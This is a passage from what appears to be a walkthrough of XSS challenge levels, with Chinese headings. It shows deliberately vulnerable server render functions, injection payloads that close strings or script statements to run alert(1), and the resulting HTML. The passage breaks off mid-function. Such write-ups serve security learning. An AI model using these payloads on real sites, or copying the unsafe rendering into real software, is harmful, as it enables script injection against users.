 Input Code

```js
');alert('1
```

HTML

```html
<img src onerror="console.error('&#39;);alert(&#39;1')" />
```

## 0x10

JS 闭合和语句结束符

Server Code

```js
function render(input) {
  return `
<script>
  window.data = ${input}
</script>
  `;
}
```

Input Code

```js
"";
alert(1);
```

HTML

```html
<script>
  window.data = "";
  alert(1);
</script>
```

## 0x11

虽然做了转义，但转义后还是造成了双引号的闭合

Server Code

```js
// from alf.nu
function render(s) {
  function escapeJs(s) {
    return (
      String(s)
        .replace(/\\/g, "\\\\")
        .replace(/'/g, "\\'")
        .replace(/"/g, '\\"')
        .replace(/`/g, "\\`")
        .replace(/</g, "\\74")
        .replace(/>/g, "\\76")
        .replace(/\//g, "\\/")
        .replace(/\n/g, "\\n")
        .replace(/\r/g, "\\r")
        .replace(/\t/g, "\\t")
        .replace(/\f/g, "\\f")
        .replace(/\v/g, "\\v")
        // .replace(/\b/g, '\\b')
        .replace(/\0/g, "\\0")
```